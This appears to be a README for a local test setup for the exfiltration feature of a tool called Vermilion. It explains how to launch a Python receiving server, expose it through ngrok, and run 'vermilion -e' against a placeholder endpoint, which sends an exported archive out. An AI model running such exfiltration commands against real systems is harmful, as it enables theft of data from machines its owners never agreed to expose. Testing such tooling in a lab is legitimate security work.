 # Test Exfiltration Locally

This directory contains a simple http server written in python to test exfiltration locally.  

I suggest using also [*ngrok*](https://ngrok.com/), [*Cloudflare Tunnels*](https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/) or similar, to expose the exfiltration endpoint publicly for the tests.  

## Instructions  

Launch the python endpoint:  
```console
python3 endpoint.py
```  
Expose the endpoint server publicly via `ngrok`:  
```console
ngrok http 8089
```  

Launch Vermilion:  
```console
vermilion -e https://<your-ngrok-endpoint-here>
```  

If everything went well you should see the exported archive in the current directory!  




